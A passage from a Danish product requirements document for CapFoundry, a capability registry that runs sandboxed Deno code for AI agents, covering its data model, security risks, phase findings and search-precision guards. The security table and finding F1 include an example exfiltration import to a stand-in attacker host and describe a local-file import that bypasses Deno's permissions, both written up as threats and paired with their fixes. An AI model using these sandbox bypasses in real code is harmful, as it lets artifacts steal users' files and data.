Infrastrukturomkostningen er tæt på nul *ved design* — hvilket er en direkte konsekvens af AD-4 og en forudsætning for at §27 kan håndhæves uden sunk cost.

---

## PRD-SEC-005 · Konceptuel datamodel



### CapabilityDescriptor — `capability.json`

| Felt | Type | Påkrævet | Note |
|---|---|---|---|
| `schemaVersion` | `1` | ja | Bumpes ved brydende ændring |
| `name` | `string` | ja | Namespaced, fx `CapFoundry.geo.distance` |
| `version` | `string` | ja | Semver |
| `description` | `string` | ja | Én sætning |
| `aliases` | `string[]` | ja | ≥ 3, må ikke gentage `name` |
| `exampleQueries` | `string[]` | ja | ≥ 3, naturligt sprog |
| `tags` | `string[]` | nej | |
| `inputSummary` | `string` | ja | Menneskelæsbar, søgbar. Indekset udleder den herfra |
| `outputSummary` | `string` | ja | Ditto |
| `runtime` | `"deno"` | ja | Kun `deno` i MVP |
| `effect` | `"PURE"` \| `"READ"` \| `"WRITE"` \| `"NETWORK"` | ja | Kun `PURE` eksekverbar i MVP |
| `inputSchema` | `JSONSchema` | ja | Håndhævet før spawn |
| `outputSchema` | `JSONSchema` | ja | Håndhævet efter kørsel |
| `artifact.type` | `"typescript"` | ja | |
| `artifact.entrypoint` | `string` | ja | Relativ sti i CFP'en |
| `artifact.sha256` | `string` | ja | Over entrypoint-filen |
| `exposure.execution` | `boolean` | ja | |
| `exposure.artifact` | `boolean` | ja | |
| `limits.timeoutMs` | `number` | nej | Default 5000 |
| `limits.maxOutputBytes` | `number` | nej | Default 4194304 |
| `tests` | `string` | ja | Relativ sti |

### IndexRecord — udledt, i `registry/index.json`

Alle felter fra deskriptoren **undtagen** `inputSchema`, `outputSchema` og `tests` (herunder `inputSummary` og `outputSummary`, som bæres videre), plus:

| Felt | Type | Note |
|---|---|---|
| `cfpLocation` | `string` | CFP-mappen, relativ til kilden. Nødvendig for at hente deskriptoren ved `describe` |
| `artifactLocation` | `string` | Artefaktets entrypoint, relativ til kilden |
| `namespaceType` | `"public"` \| `"private"` \| `"local"` | Sættes af kilden, ikke af deskriptoren |
| `indexedAt` | `ISO8601` | |

`inputSchema` og `outputSchema` hentes først ved `cfcm_describe` eller invokation — det er dét der holder indekset kompakt (§8).

### CfcmConfig — `cfcm.json`

Udvider §7's eksempel med det AD-2 og AD-5 kræver:

```json
{
  "capfoundry": {
    "registry": "https://netsi1964.github.io/capfoundry/registry",
    "enabled": true
  },
  "search": {
    "matchThreshold": 0.55,
    "partialThreshold": 0.35,
    "coverageWeight": 0.7,
    "marginWeight": 0.3
  },
  "execution": {
    "defaultTimeoutMs": 5000,
    "maxOutputBytes": 4194304
  },
  "telemetry": {
    "local": true,
    "upload": false,
    "endpoint": null
  },
  "namespaces": [
    {
      "name": "Netsi",
      "type": "private",
      "source": { "type": "filesystem", "path": "./capabilities/netsi" },
      "permissions": { "network": [], "secrets": [], "filesystem": [] }
    }
  ]
}
```

### TelemetryEvent — én JSONL-linje

| Felt | Type | Kilde |
|---|---|---|
| `ts` | `ISO8601` | §21 |
| `cfcmVersion` | `string` | §21 |
| `eventType` | `"search"` \| `"invoke"` \| `"candidate"` | |
| `capability` | `string \| null` | §21 |
| `version` | `string \| null` | §21 |
| `namespaceType` | `"public"\|"private"\|"local"\|null` | §21 |
| `queryTokenCount` | `number \| null` | Aldrig selve forespørgslen ved upload |
| `status` | `"MATCH"\|"PARTIAL_MATCH"\|"NO_MATCH"\|"OK"\|"ERROR"` | §21 |
| `confidence` | `number \| null` | `PRD-FEAT-004` |
| `thresholds` | `object` | Tunbare knapper, så sweeps kan efteranalyseres |
| `searchMs` | `number \| null` | §21 |
| `artifactCacheHit` | `boolean \| null` | §21 |
| `artifactFetchMs` | `number \| null` | §21 |
| `spawnMs` | `number \| null` | AD-3's ærlighedskrav |
| `executionMs` | `number \| null` | §21 |
| `returnMode` | `string \| null` | §21 |
| `fellBackToGeneration` | `boolean \| null` | §21 |
| `candidateSubmitted` | `boolean \| null` | §21 |
| `errorClass` | `string \| null` | Klasse, aldrig besked med data |

**Invariant:** intet felt indeholder capability-input eller -output. Håndhævet af en test i `PRD-FEAT-009`.

### Candidate

Felterne fra §16 (`suggestedName`, `description`, `source`, `artifact`, `inputSchema`, `outputSchema`, `reason`) plus `id`, `createdAt`, `status: local | promoted | discarded` og `nearestExisting` fra dubletdetektionen.

---

## PRD-SEC-006 · UI-designprincipper

CapFoundry har tre overflader, og kun den ene er visuel.

### 1. Værktøjsoverfladen — agentens UI

Det er her design betyder mest, fordi det er her tokens bruges.

- **Ét kald til det almindelige tilfælde.** En høj-konfidens søgning kan returnere resultatet direkte (`PRD-FEAT-008.4`).
- **`NO_MATCH` skal være billigt.** Kort svar, ingen forslagsliste der frister til opfølgende kald.
  Den skarpeste formulering af hvorfor kom fra en udefrakommende læser:

  > *«once inventing an answer is cheaper than admitting a miss, eval scores lie»*

  Det er den generelle form. Et registry der tilbyder næsten-match gør det billigere at finde på et
  svar end at indrømme et miss — og så måler enhver evaluering bagefter noget andet end den tror.
- **Evidens frem for autoritet.** Svaret siger *hvorfor* der er match, så agenten kan afvise det. Det er den eneste beskyttelse mod OBJ-2's wrong-match-rate når konfidensen ligger tæt på tærsklen.
- **Fejl er svar, ikke undtagelser.** Hver fejl indeholder en handlingsanvisning agenten kan følge uden at spørge igen.

### 2. Explore-siden

- Deterministisk, statisk, læsbar uden JavaScript.
- Tal frem for grafer. §20 beder om lister, ikke et dashboard.
- `Missing` er den vigtigste sektion — den viser efterspørgsel efter noget der ikke findes, og det er MVP'ens mest værdifulde datapunkt.

### 3. `CapFoundry.ui.dataTable`s artefakt

- Standardbaseret Custom Element, intet build-trin, intet framework (§10).
- Semantisk `<table>`-markup — ikke `<div>`-grid. Sortering annonceres via `aria-sort`.
- Tastaturnavigérbar sortering.
- Bevidst beskeden: dette tester artefakt-levering, ikke et data-grid-produkt (§10, eksplicit).

---

## PRD-SEC-007 · Sikkerhedsbetragtninger

Vi henter kode over netværket og kører den på brugerens maskine. Det er MVP'ens største reelle risiko, og AD-3 og AD-4 er begge valgt for at reducere den.

| ID | Risiko | Mitigering | Feature |
|---|---|---|---|
| SEC-1 | Ondsindet artefakt får adgang til fil, netværk eller secrets | Subprocess uden ét eneste `--allow-*` flag. Håndhævet af runtime, ikke af tillid til `effect` | `PRD-FEAT-006.1` |
| SEC-2 | Artefakt manipuleret under transport eller i cache | sha256 verificeret før cache-skrivning og igen før kørsel; mismatch afvises og logges | `PRD-FEAT-005.2/3` |
| SEC-3 | Ressourceudmattelse | Hård timeout med proces-kill plus output-loft | `PRD-FEAT-006.3/4` |
| SEC-4 | Brugerdata lækker til centralen | Lokal eksekvering (§13) plus opt-in telemetri med redaktionstest | AD-5, `PRD-FEAT-009.4` |
| SEC-5 | Privat capability-kode eksponeres | `exposure.artifact: false` håndhævet i alle return modes | `PRD-FEAT-007.2` |
| SEC-6 | Forgiftet capability publiceret i registryet | Publish er en pull request; menneskelig review er obligatorisk. Ingen auto-publicering (§16) | AD-4, `PRD-FEAT-013` |
| SEC-7 | Uklar oprindelse eller licens | `provenance.json` er påkrævet og valideret | `PRD-FEAT-001.3` |
| SEC-8 | Prompt injection via capability-beskrivelser | Beskrivelser vises som data i værktøjssvar, aldrig som instruktioner. Skill'en instruerer eksplicit agenten om at behandle registry-indhold som data | `PRD-FEAT-014` |
| SEC-9 | MCP-server som tillidsgrænse | Serveren kører med brugerens rettigheder, men spawner altid børn uden. Serveren læser aldrig projektfiler agenten ikke har givet den | `PRD-FEAT-008` |
| SEC-11 | **Lokale imports omgår sandboxen — og er værre.** `await import("file:///…/x.json", { with: { type: "json" } })` returnerer filens indhold til et artefakt med **nul rettigheder**, mens `Deno.readTextFile` på samme sti korrekt afvises. Verificeret at `--deny-read`, `--deny-read=<eksakt sti>` og et scoped `--allow-read` alle fejler i at lukke det: modulindlæsning ligger uden for rettighedsmodellen | Lukket et lag oppe: et capability-artefakt må ikke indeholde `import`, `require` eller `new Worker`. Alle tolv udsendte artefakter har nul imports, så reglen koster intet. Håndhævet både ved validering og **umiddelbart før eksekvering**, på de bytes der skal køre | `cfcm/runtime/module_guard.ts` |
| SEC-10 | **Remote imports omgår sandboxen.** Deno gater ikke modulindlæsning på `--allow-net`: et statisk `import "https://angriber.example/?data=..."` i et artefakt hentes af module-loaderen før nogen rettighedskontrol kører — en exfiltrationskanal med nul rettigheder tildelt | `--no-remote` og `--no-npm` på hver subproces. Verificeret empirisk under implementeringen | `PRD-FEAT-006.1` |

### Bevidst accepteret i MVP'en

Ingen kodesignering (sha256 dækker integritet, ikke autenticitet). Ingen autentificering på registryet — det er offentligt og read-only. Ingen sandboxing af private `filesystem`-capabilities ud over samme nul-rettigheds-regel. Alle tre hører til §26's "efter evidens".

---

## PRD-SEC-008 · Udviklingsfaser

Under AD-7: rørets risiko bevises før bredden bygges.



### Fase 0 · Stillads · ~1 dag · ✅ **leveret**

`deno.json`, mappestruktur, CI, `PRD-FEAT-001` (deskriptor + validator).

**Exit:** validatoren afviser en bevidst ugyldig CFP i CI. — *opfyldt: 12 negative validatortests i `tests/validator_test.ts`.*

### Fase 1 · Tynd lodret skive · ~4–5 dage · **højeste risiko** · ✅ **leveret**

`PRD-FEAT-010.1` (geo.distance) hele vejen igennem: `PRD-FEAT-002`, `003`, `004`, `005`, `006`, `008`, `009`.

**Exit — første håndgribelige milepæl:** en agent i Claude Code spørger på naturligt sprog om afstand mellem to koordinater, CFCM søger, resolver, verificerer, kører sandboxet og svarer — og der ligger en telemetri-linje på disk. Kun én capability findes.

Dette er fasen hvor arkitekturen kan vise sig forkert. Bliver den det, har vi kun kastet én capability væk.

*Opfyldt. Målt ved leverance: OBJ-3 40,5 ms p95 mod et budget på 250 ms; søgning 0,2 ms p95; 73 tests grønne. To fund undervejs — SEC-10 (remote imports omgik sandboxen) og en fejl i konfidensformlen der gav wrong-match rate 1,0 — er rettet og dækket af tests. Se «Fund fra Fase 1» nedenfor.*

### Fase 2 · Bredde · ~4–5 dage · ✅ **leveret**

`PRD-FEAT-010.2`–`010.7`, `011`, `012`, `007`.

**Exit:** syv offentlige + én privat + én lokal capability i ét søgerum (OBJ-6). Artefakt-retur virker på `ui.dataTable` (OBJ-7).

*Opfyldt. Ni capabilities i ét søgerum, 250 tests grønne. Målt på det rigtige indeks efter F5-rettelsen: **OBJ-1 = 0,941** (16/17 omskrivninger, mod et mål på 0,80) og **OBJ-2 = 0,000** (0/19 near-misses og out-of-domain, mod et loft på 0,05). Fire fund undervejs — F3 og F4 under byggeriet, F5 og F6 ved første rigtige brug. Se «Fund fra Fase 2» og «Fund fra første rigtige brug».*

### Fase 3 · Loopet lukkes · ~3 dage · ✅ **leveret**

`PRD-FEAT-013`, `014`.

**Exit:** **MVP §25's milepæl er opfyldt** — søg, resolve, cache, kør lokalt, returnér artefakt, fald rent tilbage, indlevér kandidat.

*Opfyldt, og loopet har allerede kørt for alvor. `CapFoundry.text.editDistance` er den første capability der er kommet ind **gennem** loopet frem for at være designet på forhånd: en rigtig session bad om edit distance, CFCM svarede `PARTIAL_MATCH`, agenten skrev koden og tilbød den som kandidat, og et menneske forfremmede den. Otte offentlige capabilities, 280 tests grønne.*

### Fase 4 · Beviset · ~5–6 dage · ⬅ **i gang** — `009.5` og `016` leveret, `015` er kritisk sti

`PRD-FEAT-015`, `016`, `009.5`.

**Exit:** `deno task eval` producerer en rapport med status på OBJ-1..OBJ-7 og en afkrydsning af §27's syv fejlbetingelser.

### Fase 5 · Dommen · ~2 dage

Kør evalueringen med `n ≥ 5`. Tun søgetærsklerne mod scenariesættet. Skriv `docs/mvp/RESULTS-v0.2.md`. Kør `PRD-FEAT-017`-spiken.

**Exit:** en dokumenteret beslutning — fortsæt, drej, eller falsificér. **Ingen af de tre er en fiasko.**

**Samlet: ~19–22 arbejdsdage.** Fase 1 og Fase 4 bærer al reel risiko; Fase 2 er stort set mekanisk udfyldning.

---

## Fund fra Fase 1

To ting viste sig først da koden kørte. Begge er rettet, begge har en test der forhindrer regression.

### F1 · Nul rettigheder er ikke en sandbox

`--allow-*`-flagene gater ikke Denos modulindlæsning. Et artefakt med et statisk
`import "https://angriber.example/?data=..."` fik module-loaderen til at hente URL'en før nogen
rettighedskontrol kørte — altså exfiltration med nul rettigheder tildelt. Verificeret empirisk:
uden `--no-remote` forsøgte Deno faktisk hentningen.

Lukket med `--no-remote`, `--no-npm`, `--no-config`, `--no-lock`, `--node-modules-dir=none` og
`clearEnv`. Registreret som SEC-10. Konsekvensen for planen: flaglisten i `cfcm/runtime/execute.ts`
er en del af trusselsmodellen, ikke oprydning, og skal reviewes som sådan.

### F2 · Konfidensformlen ignorerede ukendte ord

Som specificeret i v1.0 summerede `idfCoverage` kun over de forespørgselstokens indekset *havde
set*. Et ukendt token bidrog 0 til både tæller og nævner og blev dermed usynligt. Effekten:
«distance to the moon» og «distance a runner covered on a treadmill» gav begge `MATCH` med
konfidens 1,0 — en wrong-match rate på 1,0 mod OBJ-2's loft på 0,05.

Rettet ved at give ukendte tokens den IDF de *ville* have ved df=0, altså maksimalt sjældne, i
nævneren. Et ord indekset aldrig har set er netop det stærkeste bevis for at forespørgslen handler
om noget andet. Efter rettelsen: alle fire omskrivninger `MATCH`, alle tre near-misses gør ikke.

Formlen i `PRD-FEAT-004` er dermed præciseret: `idfCoverage` normaliseres over **alle**
forespørgselstokens, hvor ukendte tælles til `ln(1 + (N + 0,5) / 0,5)`.

### Målt recall-loft

> **Tilbagetrukket i v1.3.** Denne måling kørte mod en håndbygget testfixture, ikke mod de
> deskriptorer der faktisk udsendes, og holder ikke. Se F6.

---

## Fund fra Fase 2

### F3 · To relative stier i samme fil betød to forskellige ting

`namespaces[].source.path` blev opløst mod `cfcm.json`s egen mappe, mens `capfoundry.registry` blev
opløst mod processens arbejdsmappe. Samme `"./x"` i samme fil pegede dermed to forskellige steder,
afhængigt af hvor CFCM tilfældigvis blev startet. Opdaget ved at en manuel MCP-kørsel rapporterede
`Netsi (unavailable)` for en konfiguration der så korrekt ud.

Rettet: en relativ registry-sti opløses nu mod konfigurationsfilen, præcis som en namespace-sti.
Absolutte stier og `http(s)`-URL'er røres ikke.

### F4 · Formatering bryder artefakt-hashen, og det er meningen

`deno fmt` omformaterer capability-artefakter, hvilket ændrer deres bytes og dermed ugyldiggør
`artifact.sha256`. Validatoren fangede det før noget kunne eksekvere.

Det er ikke en fejl — det er integritetskæden der virker. Men rækkefølgen skal være eksplicit, så
den er nu en task: `deno task prepare` kører `fmt` → `seal` → `build-index`. CI håndhæver begge
ender uafhængigt (`fmt --check` og `validate`), så en glemt `seal` bliver rød frem for at slippe
igennem.

### Målt søgekvalitet på det rigtige indeks

| Mål | Måling | Tærskel | |
|---|---|---|---|
| OBJ-1 hit rate | **0,941** (16/17) | ≥ 0,80 | ✅ |
| OBJ-2 wrong-match | **0,000** (0/19) | ≤ 0,05 | ✅ |
| Forkert top-hit på et `MATCH` | **0** | 0 | ✅ |

> **Rettelse.** v1.2 rapporterede OBJ-2 = 0,000. Det tal var forkert. Den faktiske rate var
> **0,105**, altså mere end det dobbelte af loftet — se F5 nedenfor. Tallene i tabellen er efter
> rettelsen.

**Vigtigt forbehold, og det står også i `tests/objectives_test.ts`:** forespørgslerne er skrevet af
den samme person som skrev capabilities' aliases. Målingen viser intern konsistens, ikke uafhængig
recall. Den ærlige måling er A/B-harnesset i Fase 4, hvis scenarier er opgaveformede frem for
forespørgselsformede. Tallene her er en regressionsvagt, ikke et bevis for at OBJ-1 og OBJ-2 er
indfriet.

Den ene miss er «how far is it from one gps point to another», som lander på 0,30. Den er nu
fastholdt som recall-loftet i `tests/objectives_test.ts`.

---

## Fund fra første rigtige brug

### F5 · En enlig kandidat fik konfidens forærende — og det brød OBJ-2

Fundet af en agent i en almindelig session, ikke af testsuiten. Brugeren bad om «beregn edit
distance mellem to strenge». Agenten afviste korrekt `geo.distance` som urelateret og skrev koden
selv — men den afvisning var agentens dømmekraft, ikke CFCM's. CFCM havde svaret **`MATCH` med
konfidens 0,571** på den engelske formulering.

**Årsag.** Konfidensformlen gav `margin = 1` når der kun var én kandidat. På et niveindeks når de
fleste forespørgsler præcis én kandidat, så næsten alle fik hele margin-vægten på 0,3 forærende.
«compute the edit distance between two strings» dækkede 39% af sin forespørgsel og klarede alligevel
tærsklen på 0,55 udelukkende på den bonus. At være den eneste capability der deler ét ord er ikke
bevis for at være den rigtige — det er bevis for at indekset er lille.

**Rettelse.** Uden en nummer to er der ingen separation at måle, så konfidensen hviler på dækning
alene. Ingen fabrikeret margin.

**Måling før og efter, på det rigtige indeks:**

| | Før | Efter |
|---|---|---|
| OBJ-2 wrong-match | **0,105** (2/19) | **0,000** (0/19) |
| OBJ-1 hit rate | 0,941 | 0,941 uændret |

**Hvorfor testsuiten ikke fangede det.** Mit near-miss-sæt indeholdt
«compute the *levenshtein* edit distance between two strings». Ordet «levenshtein» er ukendt for
indekset og tæller derfor med maksimal vægt i nævneren — lige nok til at trykke konfidensen under
tærsklen. Fjern det ene ord, og fejlen træder frem. Jeg havde skrevet en test der bekræftede det
svar jeg håbede på. De fire formuleringer fra den rigtige session er nu i sættet.

### F6 · Recall-loftet fra Fase 1 var en artefakt, ikke et fund

v1.1 rapporterede «make a permalink from a heading» som et målt leksikalsk recall-loft. Det holder
ikke. Målingen kørte mod en håndbygget 3-record fixture, og den rigtige `text.slugify`-deskriptor
har næsten præcis den formulering som `exampleQuery` — på det ægte indeks giver den `MATCH` med
konfidens 1,0.

En recall-påstand er kun meningsfuld mod de deskriptorer der faktisk udsendes. Fixturen er nu kopieret
ordret fra de rigtige `capability.json`-filer, og recall-loftet er flyttet til
`tests/objectives_test.ts`, hvor det måles mod det ægte indeks.

---

## Fund fra Fase 3

### F7 · Agenten lovede en kanal der ikke fandtes

Før `cfcm_submit_candidate` blev bygget, tilbød en agent af sig selv at gøre sin kode til en
CapFoundry-capability. Instinktet i §16 var altså til stede uden Skill'en — men værktøjsoverfladen
sagde intet om kandidater, så agenten fyldte hullet ud med et løfte den ikke kunne indfri.

Det er værd at huske ved senere designvalg: **en agent lover det værktøjsbeskrivelserne antyder er
muligt**, ikke kun det de udtrykkeligt tilbyder. Et hul i overfladen bliver ikke til tavshed, det
bliver til en gætning.

### F8 · Validatoren godtog ufærdigt arbejde

`promote` skriver et CFP-skelet med synlige `TODO`-pladsholdere hvor et menneske stadig skal levere
dømmekraft. De pladsholdere bestod hver eneste strukturelle regel — rigtigt antal aliases, lange nok
strenge — så et ufærdigt skelet kunne være blevet publiceret som om nogen havde tænkt over det.

Validatoren afviser nu `TODO` i ethvert søgbart felt, og afviser gentagne aliases. Sidstnævnte er
signaturen på et skelet udfyldt mekanisk.

### Loopet betalte for sig selv med det samme

De forespørgsler der afslørede F5 — «compute the edit distance between two strings» og
«levenshtein distance» — var near-misses i OBJ-2's sæt. Efter forfremmelsen er de **legitime match**
mod `CapFoundry.text.editDistance`, og de er flyttet fra `MUST_NOT_MATCH` til `RECALL` i
`tests/objectives_test.ts`.

Et gentaget forkert match blev til en capability. Det er præcis det §20's «Missing / repeated
`NO_MATCH`»-signal er sat i verden for at fange, og det skete her uden at Explore-siden fandtes
endnu. «compute the hamming distance between two bit vectors» blev stående som near-miss: det er en
anden algoritme på andre data, og at svare med Levenshtein ville være selvsikkert forkert.

---

## Tillæg · Netværks-capabilities (`effect: NETWORK`)

Bygget efter Fase 3 på eksplicit anmodning. **Mekanismen findes og er håndhævet; ingen capability i
det første sæt bruger den**, og en test fastholder at alle otte forbliver `PURE`.

### Reglen

```text
tilladte værter  =  deskriptorens permissions.network     (hvad capability'en erklærer den skal bruge)
                 ∩  cfcm.json's execution.network.allow    (hvad denne maskine tillader)
                 ∪  namespacets egne permissions.network   (kun for private namespaces)
```

Begge halvdele bærer. Deskriptoren alene ville være selvcertificering — en capability der tildeler
sig selv rettigheder er en kommentar, ikke en rettighedsmodel. Politikken alene ville kræve at du
kender hver capability's behov før installation.

Deno håndhæver `--allow-net=vært1,vært2` **pr. vært i runtime**, ikke rådgivende. Verificeret:
med `--allow-net=www.dr.dk` når dr.dk igennem og example.com afvises.

### Fire bevidste valg

| Valg | Hvorfor |
|---|---|
| **Slukket som standard** (`enabled: false`, tom `allow`) | Ingen maskine får netværksadgang ved at opgradere CFCM |
| **Underskud afvises, indsnævres ikke** | To ud af tre erklærede værter ville fejle midtvejs i arbejdet, på et punkt kalderen ikke kan fortolke. Afvisningen navngiver den manglende vært |
| **Wildcards afvist i konfigurationen** | `*.dr.dk` gør en allowlist til ingen allowlist, men ser ud som en politik |
| **`PURE` + erklærede værter afvises** | Enten er effekten forkert eller erklæringen er; at gætte betyder enten over-tildeling eller at bryde capability'en |

### Hvorfor intet i det første sæt bruger den

En netværks-capability kan ikke holde den determinisme-kontrakt hver eneste nuværende capability
hævder — «samme input → bit-identisk output over 100 kørsler» — og det er også dén egenskab der gør
artefakt-hashen meningsfuld som kontrakt. Den ville desuden gøre `executionMs` til en måling af
fremmed oppetid og dermed gøre Fase 4's A/B-tal svære at læse.

Mekanismen er der, når efterspørgslen kommer. Målingen forbliver ren imens.

**Bemærk:** Claude Codes permission mode har intet med dette at gøre. Den styrer om *Claude* må køre
en kommando; Deno-flagene styrer hvad *artefaktet* må røre. Auto mode åbner ikke sandboxen — bevist
ved at en forælder med `--allow-net` nåede dr.dk mens dens barn blev afvist.

---

## Fund: at udvide en beskrivelse er en præcisionsændring

F5 og regressionen i `ui.dataTable` 1.1.0 er **samme mekanisme i to forklædninger**, og en tredje
kommer hvis den ikke navngives.

I F5 ramte ordet `distance` fem felter af `geo.distance` og fik den returneret på et strengproblem.
I 1.1.0 tilføjede jeg ordet «render» til en `exampleQuery`, og
«render a react data grid with virtual scrolling» — en forespørgsel der ligger i near-miss-sættet
netop fordi React og virtualisering er eksplicit uden for scope — nåede `MATCH` på 0,61.

**Konfidensen stiger med hvor mange felter en forespørgsels tokens rammer, ikke med hvor godt
capability'en passer.** Derfor er enhver korrekt sætning man tilføjer til en deskriptor også en ny
flade en forkert forespørgsel kan lande på. Intet i værktøjet sagde det: `deno task prepare`
forseglede og genindekserede uden et ord.

Begge gange fangede CI det bagefter. `scripts/check-precision.ts` fanger det nu på det tidspunkt
ændringen laves — den kører som sidste trin i `deno task prepare`, og den **fejler frem for at
advare**, fordi en advarsel fra et script der også retter ting bliver scrollet forbi.

Near-miss-sættet ligger i `eval/near-misses.json` med en begrundelse pr. forespørgsel. Begrundelsen
er ikke pynt: den er hvad en vedligeholder har brug for den dag en forespørgsel er blevet ubelejlig
og fristelsen er at slette den frem for at rette kollisionen.

### Enhver vagt her er en lektie nogen allerede har betalt for

Det er værd at sige højt, fordi en liste over vagter uden det oversælger dem.

| Vagt | Hændelsen der skabte den |
|---|---|
| Near-miss-sættet | F5 — `distance` ramte fem felter og returnerede geografi på et strengproblem |
| `check-precision` | `4cccc8b` — «render» i en eksempelforespørgsel brød OBJ-2 |
| Krydstjek af eksempelforespørgsler | En for bred beskrivelse under test af vagten ovenfor |
| `provenance.json` i `tests/fixtures/` | To private adresser blev optaget i geocode-fixturer |
| SEC-10 og SEC-11 | Remote og lokale imports omgik sandboxen |
| `tests/prd_claims_test.ts` | Denne plan markerede næsten `PRD-FEAT-015` leveret på en mock-rapport |

**Ikke én af dem fandtes før den hændelse der lærte os den.** Påstanden værd at fremsætte er derfor
ikke «vi har vagter», men at hver overraskelse bliver omsat til én. Den ærlige grænse er at den
næste klasse per definition er udækket.

### En rettelse: 015 *var* maskinelt fangbar

Jeg skrev i `8661ff9` at ingen vagt ville have fanget at `PRD-FEAT-015` var markeret leveret på
grundlag af en mock-rapport. **Det var forkert.** Marie påpegede at rapporterne bærer
``Driver `mock` `` i deres header — mekanisk, allerede i artefaktet, og en fem-liniers tjek væk.

Den præcise påstand er smallere og sandere: **tjekket er trivielt når man ved at `driver` er feltet
der afgør spørgsmålet; det dyre er at kigge.** `tests/prd_claims_test.ts` gør nu markeringen
uforfalskelig i hånden — den kan ikke sættes før en rigtig kørsel findes at begrunde den med.

### Princippet der reddede os, og som ikke var design

Mock-rapporterne siger i deres egen første linje at de beviser harnesset frem for CapFoundry. Jeg
skrev den sætning fordi tal fra en mock så farlige ud — ikke fordi jeg forudså nogen der reviderede
planen mod dem. Den holdt alligevel over for en læser der aldrig åbnede planen.

> **Lad et artefakt oplyse sine egne grænser — ikke fordi du kan forudsige hvem der læser det, men
> fordi du ikke kan.**

Et forbehold der kun lever i PRD'en overlever præcis indtil nogen åbner en rapport uden at læse
PRD'en. Tavlens «provisional»-markeringer er samme træk, og begge overlevede en læser der kom fra
en retning vi ikke havde forestillet os.

### Hvad vagten fanger, og hvad den ikke gør

`scripts/check-precision.ts` kører to tjek, og de dækker hver sin halvdel:

| Tjek | Fanger | Blind over for |
|---|---|---|
| **Optaget near-miss-sæt** (`eval/near-misses.json`) | En capability der kolliderer med et spørgsmål nogen allerede har skrevet ned | En beskrivelse der er for bred for et spørgsmål ingen har tilføjet |
| **Krydstjek af eksempelforespørgsler** | En capability der **overtager** en andens forespørgsel — altså hvor ejeren *taber* | En capability der vokser ind i en andens område mens ejeren stadig vinder |

**Krydstjekket fanger tyveri, ikke nærhed.** Det er en skarpere grænse end den tabel oprindeligt
antydede, og Marie fandt den ved at kopiere `geo.geocode`'s eksempelforespørgsel ordret ind i
`sun.times`' aliases. Vagten bestod — korrekt, for geocode vandt stadig sin egen forespørgsel. Men
`sun.times` gør nu krav på et adressespørgsmål, og intet sagde fra.

Målt på netop det tilfælde:

| | `geo.geocode` på sin egen forespørgsel |
|---|---|
| Rent indeks | vinder med **margin 0,729** |
| Efter forureningen | vinder stadig, men **margin 0,225** |

Signalet findes altså og er stærkt — det faldt med en faktor tre — men ingen af de to tjek læser
det. Det **udækkede midterfelt er en capability der blot er for bred**, og det er præcis hvad
`4cccc8b` var.

At lukke det kræver en afstand mellem rangeringer og en tærskel på den. En tærskel vil være forkert
ved elleve capabilities og forkert på en anden måde ved halvtreds, så den er ikke bygget. Margin-tallet
er noteret her frem for i en commit-besked, fordi det er dét en senere implementering skal bruge:
signalet er målbart, og den svære del er ikke at beregne det, men at vide hvornår et fald betyder
noget.

Den første grænse er reel og skal siges højt: `ui.dataTable` 1.1.0 ville være sluppet igennem, hvis
React-forespørgslen ikke tilfældigvis havde ligget i sættet siden Fase 2. Derfor siger vagtens
succesbesked **hvad der blev tjekket** frem for at antyde en godkendelse:

```text
✓ none of the 14 recorded near-miss queries reaches MATCH, and no capability
  wins another's example query.
  Queries outside the set are not checked. When you add a capability, add the
  questions it should not answer.
```

Sættets værdi skalerer med hvor ærligt det fodres. Derfor bærer hver forespørgsel en begrundelse:
en near-miss med en skrevet grund er en nogen har tænkt over.

> **Konsekvens for `PRD-FEAT-019`** (Capability Packager): en Skill der genererer aliases stille
> automatiserer præcis det trin der to gange har kostet præcision — og den ville gøre det for
> capabilities ingen holder øje med. Marie har bygget den til at nægte. Det er rigtigt.

---

## PRD-SEC-009 · Udfordringer og løsninger

| ID | Udfordring | Løsning | Restrisiko |
|---|---|---|---|
| CH-1 | **Leksikalsk søgning rammer et recall-loft.** Agenter omskriver; ordoverlap fejler | Kuraterede `aliases` og `exampleQueries` pr. capability (`PRD-FEAT-010`, fælles kriterium). Måles direkte af OBJ-1 | Reel. Men det er *pointen* med AD-2: fejler OBJ-1, har vi målt at semantik er nødvendig frem for at antage det |
| CH-2 | **Proces-spawn æder nettoværdien.** 30–80 ms pr. kald mod OBJ-3's 250 ms | `spawnMs` måles separat (`PRD-FEAT-006.6`) så tallet ikke skjules | Hvis spawn dominerer, er Worker-eksekvering en målt, ikke gættet, næste beslutning |
| CH-3 | **Syv capabilities er et for lille indeks til at søgning er svær.** MVP'en kan se for god ud | Near-miss-scenariet (`PRD-FEAT-015`) bruger bevidst forespørgsler tæt på de syv. OBJ-2's tærskel gælder dét sæt | Erkendt: OBJ-1/OBJ-2 er nødvendige, ikke tilstrækkelige. Noteres i rapporten |
| CH-4 | **A/B-sammenligning med LLM'er er støjende.** Samme prompt giver forskellige svar | `n` gentagelser med rapporteret varians (`PRD-FEAT-015.6`), deterministisk scoring (`015.3`) | Restøj. Derfor er tærsklerne i OBJ-1..3 satte marginer, ikke hårfine forskelle |
| CH-5 | **Skill'en kan blive for lang og æde sin egen gevinst** | Hård grænse på 100 linjer (`PRD-FEAT-014`). Overskrides den, er MCP-overfladen problemet | Lav |
| CH-6 | **Statisk registry gør publish langsomt** (PR-review pr. capability) | Accepteret bevidst. Ved syv capabilities er det ikke en flaskehals, og det giver review og provenance gratis (SEC-6, SEC-7) | Ville ikke skalere. Irrelevant i MVP'en |
| CH-7 | **`json.schema.infer` er kun en meningsfuld benchmark hvis reglerne er eksplicitte** | Reglerne for enum, required, nesting og arrays er kontrakt, ikke implementeringsdetalje (`PRD-FEAT-010.6`) | Enum-inferens er den svære del og bør have flest tests |
| CH-8 | **Sunk cost efter tre ugers arbejde presser mod at fortsætte** | §27's fejlregel er et påkrævet afsnit i evalueringsrapporten (`PRD-FEAT-015.5`), ikke en note. Infrastrukturomkostningen er tæt på nul ved design (AD-4) | Menneskelig. Mitigeres ved at skrive tærsklerne ned nu — hvilket dette dokument gør |

---

## PRD-SEC-010 · Fremtidige udvidelser

**Låst bag evidens.** MVP §26 gælder: intet herunder påbegyndes før evalueringsrapporten fra Fase 5 findes.

### Betinget af et konkret måleresultat

| Udvidelse | Udløses hvis |
|---|---|
| Lokale embeddings / hybridsøgning | OBJ-1 < 0,80 **og** fejlanalysen viser omskrivning som årsag (CH-1) |
| Worker-baseret eksekvering | OBJ-3 fejler **og** `spawnMs` dominerer (CH-2) |
| Rigere match-statusser og afvisningsregler | OBJ-2 > 0,05 |
